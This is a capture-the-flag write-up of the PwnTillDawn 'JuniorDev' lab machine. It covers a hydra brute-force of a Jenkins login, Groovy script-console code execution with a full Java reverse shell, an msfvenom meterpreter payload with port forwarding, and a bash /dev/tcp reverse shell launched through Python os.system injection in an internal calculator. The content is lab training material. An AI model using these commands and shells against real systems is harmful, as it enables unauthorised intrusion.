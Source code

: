 ```yaml
---
title: JuniorDev Writeup PwnTillDawn
author: r0b0tG4nG
date: 2021-11-27 11:33:00 +0800
categories: [Blogging, PwnTillDawn]
tags: [writeups, jenkins, portfwd, python]
math: true
mermaid: true
image:
  src: ![image](https://user-images.githubusercontent.com/67085453/143765869-f4b70e8d-17d3-4e92-9311-e28dd167b4c9.png)
  width: 800
  height: 500
---
```


![image](https://user-images.githubusercontent.com/67085453/143765891-34e88ab8-1881-47a1-90de-e588c3eea925.png)<br>

**> Information Gathering**<br>
Started with the usual nmap scan and from the scan we can see active ports. port 22 (ssh) & port 30609 (jetty 9.4.27).<br>
![image](https://user-images.githubusercontent.com/67085453/143765662-e120b52a-a05e-4665-b2a1-55e4dacfe4d9.png)

<br>
Upon visiting the web service running on port _30609_, i found a login screen.<br>
![image](https://user-images.githubusercontent.com/67085453/143765631-f7e788fc-8e83-4b1c-a97b-a639e13632de.png)<br>


Since we dont have any credentials, the best option is to *bruteforce* the target web login. Below is the hydra command used<br>
`hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.150.150.38 -s 30609 http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"`<br>
![image](https://user-images.githubusercontent.com/67085453/143765717-ed681b4b-3abe-43cb-b3c7-609f419e7275.png)<br>

Hydra yield positive results. We have found the password for the admin user. The next step is to login on jetty webapp running on port 30609. *username == admin* & *password == matrix*<br>
![image](https://user-images.githubusercontent.com/67085453/143765743-22635b7b-a430-4f4a-889a-454bde37f372.png)<br>
     

The credentials worked we are logged in now.<br>
![image](https://user-images.githubusercontent.com/67085453/143765751-202149be-2d13-4ce7-b865-b7b839156884.png)<br>

After a short googling on how to abuse jenkins script console to rce we found a good post from <a href="https://github.com/gquere/pwn_jenkins">gquere</a>. With this information, we were able to build a script to test remote code execution on the target. <br>
![image](https://user-images.githubusercontent.com/67085453/143765761-0e7da699-8773-49fa-8df6-e511967f33a7.png)<br>


Now  that we can execute commands on the target, its time to spawn a reverse shell. Below is the script I used.
```shell
String host="10.66.67.114";  
int port=9001;  
String cmd="/bin/bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
<br>
![image](https://user-images.githubusercontent.com/67085453/143765793-ff14889e-8cdb-4b2b-b144-003ab641c429.png)<br>


**> Post Exploitation**<br>
After i got a shell, post enumeration phase begins. I transfered linpeas to the target, changer permissions and executed linpeas. In linpeas output, i found a port binded to the _loopback address(127.0.0.1:8080)_.<br>
![image](https://user-images.githubusercontent.com/67085453/143765907-412f03af-7170-4dc5-b840-ee0835a53718.png)<br> 

Port 8080 is mostly used for web services. To confirm, i tried `wget` on the ort since `curl` is not found on the target.<br>
![image](https://user-images.githubusercontent.com/67085453/143765930-93ced860-08cc-4b92-827d-24a5ff158593.png)<br>

Reading the fetched `index.html` from port 8080 indicates that there is a web webapp running internally.<br>
![image](https://user-images.githubusercontent.com/67085453/143765946-d1c2a430-0af0-49ab-b1fd-83f18ddc019c.png)<br>

To access this internal web service, we have to port-forward port 8080 from the target to our attacking machine. To do this, i created a linux payload using `msfvenom`. <br>
``msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.66.66.78 LPORT=9002 -f elf -o 9002msf``<br>
![image](https://user-images.githubusercontent.com/67085453/143765952-d511e7e9-e049-4a7a-9360-38e69b2548d4.png)<br>

The next thing to do is to transfer the payload to the target and execute it while msfconsole is listerning fortrt incoming connections.<br>
![image](https://user-images.githubusercontent.com/67085453/143765957-aa29bf3e-872b-4760-b63b-ffedb1e21e22.png)<br>

When the payload is executed on the target, we should recieve a connection back on `msfconsole`. Once the connection is in, we can port-forward the target intertnal port `8080` to our attacking machine using the `portfwd`command in msfconsole<br>
`portfwd add -l 8080 -p 8080 -r 127.0.0.1`<br>
![image](https://user-images.githubusercontent.com/67085453/143765963-00518744-c295-44f9-820a-9db9a7dcfcbf.png)<br>

Now that we the target port `8080` connected back to our attacking machine, wehn visited, we found a python maths console.<br>
![image](https://user-images.githubusercontent.com/67085453/143765968-cf05e59b-727e-4377-ac76-ba25ed07ce10.png)<br>

Since it's a simple python maths calculator, we can easily bypasss the pythin functions and gain a remote code execution. To do this, we will use `__import__("os").system("")`<br>

We created a bash file with contains our bash reverse liner. a simple bash script, transfered the bash file to the target. 
```shell
#!/bin/bash
bash -c  'bash -i>&/dev/tcp/10.66.66.78/9002 0>&1'
```
<br>

Once our bash file is on the target, we can execute the bash file using the pythin calculator. We simply do this using the command
`__import__("os").system("/bin/bash /tmp/shell.sh")`<br>
![image](https://user-images.githubusercontent.com/67085453/143765976-251cd43b-7e6d-4852-895b-6b2ba81033c9.png)
